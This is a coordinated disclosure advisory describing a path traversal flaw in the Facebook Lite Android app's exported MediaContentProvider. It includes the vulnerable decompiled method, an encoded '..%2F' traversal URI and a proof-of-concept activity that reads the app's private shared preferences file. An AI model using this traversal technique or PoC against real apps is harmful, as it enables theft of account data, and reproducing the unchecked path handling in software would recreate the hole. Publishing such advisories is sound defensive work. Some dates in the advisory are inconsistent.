 
# Vulnerability in Facebook Lite app for Android


## 1. Advisory Information

**Title:** Vulnerability in Facebook Lite app for Android

**Advisory ID:** STIC-2015-2012

**Advisory URL:** [http://www.fundacionsadosky.org.ar/publicaciones/#seguridad-en-tic](http://www.fundacionsadosky.org.ar/publicaciones/#seguridad-en-tic)

**Date published:** 2016-29-1

**Date of last update:** 2016-1-26

**Vendors contacted:** Facebook

**Release mode:** Coordinated release



## 2. Vulnerability Information

**Class:**  Improper Limitation of a Pathname to a Restricted Directory [[http://cwe.mitre.org/data/definitions/22.html](http://cwe.mitre.org/data/definitions/22.html)]

**Impact:** Data loss

**Remotely Exploitable:** No

**Locally Exploitable:** Yes

**CVE Identifier:** N/A



## 3. Vulnerability Description

Facebook Lite is a lighter Android version of the Facebook's social network app. The app is designed specifically for use in countries where the wireless networks are slow or to install on older devices that are not able to support all of the original Facebook version.

Facebook Lite has around 50 to 100 milli  ons downloads (as of January 2016). The app has a Path traversal vulnerability that allows other apps to access any files in the application's internal storage. This could allow a malicious application, without any required permissions, to take control of the victim device's Facebook account .


## 4. Vulnerable packages

* Facebook Lite version 1.15.0.137.302 or older

## 5. Vendor Information, Solutions and Workarounds

Facebook acknowledged and fixed the vulnerability in the app version 1.15.0.137.302, released on January 28, 2016.


## 6. Credits

This vulnerability was discovered and researched by Joaquín Manuel Rinaudo. The publication of this advisory was coordinated by Programa Seguridad en TIC. 

## 7. Technical Description

Facebook Lite application has an exported provider named MediaContentProvider. This provider is vulnerable to a Path Traversal vulnerability. While calling ContentProvider openFile method the app obtain the last path segment directly from the URI which is controlled by an attacker and can be pointed to an encoded relative path to any file. 

The following vulnerable method is from _com.facebook.lite.photo.MediaContentProvider_ class.

```
    public ParcelFileDescriptor openFile(Uri r5_Uri, String r6_String) {
        new StringBuilder("photo/called with uri: ").append(r5_Uri);
        if (this.a.match(r5_Uri) == 1) {
            File r0_File = new File(getContext().getFilesDir(), r5_Uri.getLastPathSegment());
            if (!r0_File.exists()) {
                try {
                    r0_File.createNewFile();
                } catch (IOException e) {
                    Log.e("MediaContentProvider", "photo/create new file failed", e);
                }
            }
            return ParcelFileDescriptor.open(r0_File, 805306368);
        } else {
            new StringBuilder("photo/unsupported uri: ").append(r5_Uri);
            throw new FileNotFoundException(new StringBuilder("Unsupported uri: ").append(r5_Uri.toString()).toString());
        }
    }


```


For example, when an attacker requests access to the URI _content://com.facebook.lite.media/..%2Fshared_prefs%2Frti.mqtt.ids.xml_, the last path segment would translate to _../shared_prefs/rti.mqtt.ids.xml_. This would allow that file, that is stored in the application internal storage, to be read by a malicious application. 


The provided POC shows how any application can read a Facebook Lite internal file:

```
  @Override
  protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);
    setContentView(R.layout.activity_main);

    Uri uriCustom = Uri
        .parse("content://com.facebook.lite.media/..%2Fshared_prefs%2Frti.mqtt.ids.xml");
    InputStream fileStream;
    try {
      fileStream = getContentResolver().openInputStream(uriCustom);

      BufferedReader r = new BufferedReader(new InputStreamReader(
          fileStream));
      StringBuilder total = new StringBuilder();
      String line;
      while ((line = r.readLine()) != null) {
        total.append(line);
      }

      fileStream.close();
      Log.d("DEBUG", "string is " + total.toString());
    TextView text = (TextView)findViewById(R.id.file_content);
    text.setText(total);
    } catch (Exception e) {
      Log.d("DEBUG", Log.getStackTraceString(e));
    }
  }



```


## 8. Report Timeline

* **2015-11-20:** 
        Technical details of the vulnerabilities sent to the vendor.
        
* **2015-11-25:** 
        The vendor acknowledged to have received the report and sent it to the appropriate product team.
        
* **2015-12-3:**  asked for an status update on the issue.
        
* **2016-01-4:** 
        Having received no response,  asked for an estimated time of release for the fix.
        
* **2016-01-25:** 
        The vendor assured that a fix was ready and that they were working to get it deployed.
        
* **2016-01-26:** 
        The vendor notified that the app would be updated that week with the patch.
        
* **2016-29-1:** 
        Advisory was released. 

## 9. References



## 10. About Fundación Dr. Manuel Sadosky

The Dr. Manuel Sadosky Foundation is a mixed (public / private) institution whose goal is to promote stronger and closer interaction between industry and the scientific-technological system in all aspects related to Information and Communications Technology (ICT). The Foundation was formally created by a Presidential Decree in 2009. Its Chairman is the Minister of Science, Technology, and Productive Innovation of Argentina; and the Vice-chairmen are the chairmen of the country’s most important ICT chambers: The Software and Computer Services Chamber (CESSI) and the Argentine Computing and Telecommunications Chamber (CICOMRA). For more information visit: [http://www.fundacionsadosky.org.ar](http://www.fundacionsadosky.org.ar)

## 11. Copyright Notice

The contents of this advisory are copyright (c) 2014 Fundación Sadosky and are licensed under a Creative Commons Attribution Non-Commercial Share-Alike 4.0 License: [http://creativecommons.org/licenses/by-nc-sa/4.0/](http://creativecommons.org/licenses/by-nc-sa/4.0/)